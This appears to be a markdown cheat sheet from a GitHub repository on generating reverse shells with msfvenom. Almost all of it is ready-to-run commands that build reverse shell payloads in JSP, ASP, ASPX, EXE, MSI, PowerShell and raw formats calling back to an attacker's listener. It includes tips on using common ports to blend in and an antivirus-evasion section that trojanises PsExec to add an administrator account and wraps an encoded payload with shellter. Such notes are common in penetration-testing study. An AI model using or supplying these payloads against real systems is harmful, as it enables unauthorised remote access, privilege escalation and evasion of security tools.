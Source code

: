 # reverse shells

## tipps

- Specify architecture for windows reverse shells!
- Check windows version if its new its probably x64
- use commen ports such as 80, 443, 53

## general

### list payloads

```bash
msfvenom -l payloads
```

### list encoders

```bash
msfvenom -l encoders
```

## java

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST="$LHOST" LPORT=443 -f raw > shell.jsp
```

## windows

### generate asp reverse shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=5555 -f asp > shell.asp
```

### generate exe reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<lhost> LPORT=5555 -f exe -o reverse.exe
```

### generate msi reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<lhost> LPORT=5555 -f msi -o reverse.msi
```

### generate windows rev shell without bad chars

```
msfvenom -p windows/shell_reverse_tcp LHOST=<lhost> LPORT=5555 -b "\x00\xotherchars" -f rb
```

### generate aspx reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<lhost> LPORT=80 -f aspx > reverse.aspx
```

### powershell reverse shell

```bash
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=<lhost> LPORT=5555 -f exe -o rev.exe
```

### raw reverse with encoder

```bash
msfvenom -p windows/shell_reverse_tcp -e cmd/powershell_base64 -b '\x0a\xotherbadchars' LHOST=<lhost> LPORT=5555 > shell.raw
```

### av evasion/bypass with legit binary

```bash
msfvenom -p windows/x64/exec CMD="net localgroup administrators <some_user> /add" -f exe -x PsExec64.exe -o PsExec642.exe

msfvenom -p windows/shell_reverse_tcp LHOST="$RHOST" LPORT=80 -f exe -e x86/shikata_ga_nai -i 8 -f raw -o rev.raw
shellter -> (A)utomatic -> (N)o Stealthmode -> (C)ustom: Path to rev.raw -> (N)o reflective dll loader
```
